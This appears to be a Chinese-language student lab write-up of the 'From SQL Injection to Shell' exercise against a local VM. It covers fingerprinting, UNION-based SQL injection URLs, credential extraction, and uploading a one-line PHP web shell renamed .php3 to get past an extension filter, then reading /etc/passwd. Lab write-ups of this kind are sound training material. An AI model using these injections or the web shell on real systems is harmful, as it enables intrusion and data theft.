 # 翻转课堂三-从SQL注入到Shell #

## 介绍 ##

攻击分为三步：
- Fingerprinting：收集有关Web应用程序和使用中的技术的信息
- Detection and exploitation of SQL injection：SQL注入工作原理以及利用它们来检索信息
- Access to the administration pages and code execution：访问操作系统和运行命令的最后一步

## 环境配置 ##

- 目标服务器：下载镜像并转入虚拟机

![](https://github.com/yakkwang/ns/blob/master/2017-2/FlippedClassroom/HW3/img/2.PNG)

- 攻击者主机：

![](img/attacker.png)

  - 设置攻击者浏览器：
  
![](https://github.com/yakkwang/ns/blob/master/2017-2/FlippedClassroom/HW3/img/attacker.PNG)
  
  - 打开 burpsuite 监听所有端口
  
![](https://github.com/yakkwang/ns/blob/master/2017-2/FlippedClassroom/HW3/img/burpsuiteALL.PNG)

  - 可以访问目标服务器
 
![](https://github.com/yakkwang/ns/blob/master/2017-2/FlippedClassroom/HW3/img/ping.PNG)


## 实验过程 ##

### Fingerprinting ###
#### Inspecting HTTP headers ####
- HTTP请求，可获得服务器信息及PHP版本信息

  - telnet

![](https://github.com/yakkwang/ns/blob/master/2017-2/FlippedClassroom/HW3/img/telnet.PNG)

   - 攻击者访问服务器，并用burpsuite查看信息

![](https://github.com/yakkwang/ns/blob/master/2017-2/FlippedClassroom/HW3/img/burpsuiteHTTP.PNG)

- HTTPS请求

   - 请求失败，说明应用程序没有运行在443端口

![](https://github.com/yakkwang/ns/blob/master/2017-2/FlippedClassroom/HW3/img/https.PNG)

#### Using a directory Buster ####

使用wfuzz检测远程文件与文件夹

![](https://github.com/yakkwang/ns/blob/master/2017-2/FlippedClassroom/HW3/img/wfuzz.PNG)

### Detection and exploitation of SQL injection ###

#### Detection of SQL injection SQL注入检测 ####

##### 基于整数的检测 #####

1. 访问http://10.0.2.15/cat.php?id=1

![](https://github.com/yakkwang/ns/blob/master/2017-2/FlippedClassroom/HW3/img/id1.PNG)

  - 与输入http://10.0.2.15/cat.php?id=2-1 相同。则可能存在SQL注入
  
![](https://github.com/yakkwang/ns/blob/master/2017-2/FlippedClassroom/HW3/img/id2-1.PNG)


2. 如果访问http://10.0.2.15/cat.php?id=1' (多打一个单引号)，则会收到错误提示

![](https://github.com/yakkwang/ns/blob/master/2017-2/FlippedClassroom/HW3/img/id11.PNG)

##### 基于字符串的检测 #####

- 奇数个 **'** 会导致语法错误，所以使用偶数个'来测试
- 使用 **--** 注释掉查询的结尾
- 使用**and '1'='1**（不改变查询语句的语义）和**and '1'='0**（改变查询语句的语义），对比发现漏洞

#### SQL注入的开发 ####
##### 利用UNION关键字进行SQL注入 #####

- 访问http://10.0.2.15/cat.php?id=1 union select 1  收到错误提示

![](https://github.com/yakkwang/ns/blob/master/2017-2/FlippedClassroom/HW3/img/union1.PNG)

- 反复测试，直至访问http://10.0.2.15/cat.php?id=1 union select 1,2,3,4 时得到正确页面，可知列的正确数量

![](https://github.com/yakkwang/ns/blob/master/2017-2/FlippedClassroom/HW3/img/union1234.PNG)

- 也可以用order by猜测列的数量。当输入列号大于正确列数时，报错

![](https://github.com/yakkwang/ns/blob/master/2017-2/FlippedClassroom/HW3/img/orderby.PNG)

##### 检索信息 #####

- 数据库版本信息

![](https://github.com/yakkwang/ns/blob/master/2017-2/FlippedClassroom/HW3/img/version.PNG)

- 当前用户信息

![](https://github.com/yakkwang/ns/blob/master/2017-2/FlippedClassroom/HW3/img/user.PNG)

- 数据库名

![](https://github.com/yakkwang/ns/blob/master/2017-2/FlippedClassroom/HW3/img/database.PNG)

- 获取数据库所有表名

![](https://github.com/yakkwang/ns/blob/master/2017-2/FlippedClassroom/HW3/img/tables.PNG)

- 获取数据库所有列名

![](https://github.com/yakkwang/ns/blob/master/2017-2/FlippedClassroom/HW3/img/columns.PNG)

- 获取表与列的对应关系

![](https://github.com/yakkwang/ns/blob/master/2017-2/FlippedClassroom/HW3/img/tablecolunm.PNG)

- 通过上图可知还存在用户名与密码字段，查询可得

![](https://github.com/yakkwang/ns/blob/master/2017-2/FlippedClassroom/HW3/img/loginpass.PNG)
 
 
### 访问管理页面和代码执行 ###

- 将得到的密码进行解密，可得密码为 P4ssw0rd

![](https://github.com/yakkwang/ns/blob/master/2017-2/FlippedClassroom/HW3/img/pswd.PNG)

- 根据得到的用户名和密码访问管理页面

![](https://github.com/yakkwang/ns/blob/master/2017-2/FlippedClassroom/HW3/img/login.PNG)

   - 登陆成功
   
   ![](https://github.com/yakkwang/ns/blob/master/2017-2/FlippedClassroom/HW3/img/loginsucc.PNG)

- 植入webshell

   - 找到上图中的文件上传按钮
   - 上传一个webshell.php文件，内容为
    > <?php
    >       system($_GET['cmd']);
    >     ?>
   - 当后缀为php时，被页面拒绝（该应用程序阻止文件扩展名为.php上传,使用php3为后缀名绕过.php的过滤)
   
   ![](https://github.com/yakkwang/ns/blob/master/2017-2/FlippedClassroom/HW3/img/file.PNG)
   
   - 改为php3的后缀名后，上传成功
   
   ![](https://github.com/yakkwang/ns/blob/master/2017-2/FlippedClassroom/HW3/img/filesucc.PNG)

- 访问植入的php文件

![](https://github.com/yakkwang/ns/blob/master/2017-2/FlippedClassroom/HW3/img/php.PNG)

- 查看审查元素

![](https://github.com/yakkwang/ns/blob/master/2017-2/FlippedClassroom/HW3/img/info.PNG)

- 获取页面大量信息

![](https://github.com/yakkwang/ns/blob/master/2017-2/FlippedClassroom/HW3/img/uname.PNG)

![](https://github.com/yakkwang/ns/blob/master/2017-2/FlippedClassroom/HW3/img/lotsinfo.PNG)

    - 如通过ls得到当前目录或上级目录信息
    - 通过cat /etc/passwd得到系统用户列表
    - 通过cat /etc/hosts等指令可以查看主机信息，更改网络配置，甚至重启系统

- 实验结束
